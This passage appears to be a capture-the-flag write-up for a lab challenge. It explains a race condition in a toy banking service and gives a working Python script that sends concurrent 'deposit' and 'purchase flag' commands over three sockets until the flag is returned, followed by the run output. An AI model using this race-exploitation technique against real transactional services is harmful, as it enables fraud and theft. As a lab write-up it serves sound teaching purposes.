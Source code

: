 1. The first socket deposits money.
2. The second socket also deposits money.
3. The third socket tries to purchase the flag.

Due to the race condition, it's possible that the `purchase flag` command gets processed after the two deposit commands have executed but before the `money` variable is reset. This would mean that the total balance, from the system's perspective, is sufficient to buy the flag even if the user didn't have enough funds initially.

```python
import socket

HOST = "10.10.117.19"
PORT = 1337

while True:  # Infinite loop
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s3 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((HOST, PORT))
    s2.connect((HOST, PORT))
    s3.connect((HOST, PORT))

    s.send('deposit'.encode('utf-8'))  # Encode the string to bytes
    s2.send('deposit'.encode('utf-8'))  # Encode the string to bytes
    s3.send("purchase flag".encode('utf-8'))  # Encode the string to bytes

    data1 = s.recv(1024).decode('utf-8')  # Decode the received data
    data2 = s2.recv(1024).decode('utf-8')  # Decode the received data
    data3 = s3.recv(1024).decode('utf-8')  # Decode the received data

    print(data1)
    print(data2)
    print(data3)

    # Close the sockets
    s.close()
    s2.close()
    s3.close()

    # Check if the flag was successfully purchased, if so, break out of the loop.
    if "THM" in data3:
        break
```

### Execution & Result

When the script is executed, it sends the three simultaneous requests repeatedly. Eventually, due to the race condition, the script manages to "purchase" the flag without technically having enough funds. The system responds with the flag, and the script stops its execution.

```bash
root@ip-10-10-113-232:~# python3 sprint.py 
Current balance: 10000

Current balance: 20000

THM{R4c1n6_f0r_7h47_5w337_m0n3y_$$$$$}
Current balance: 5000
```
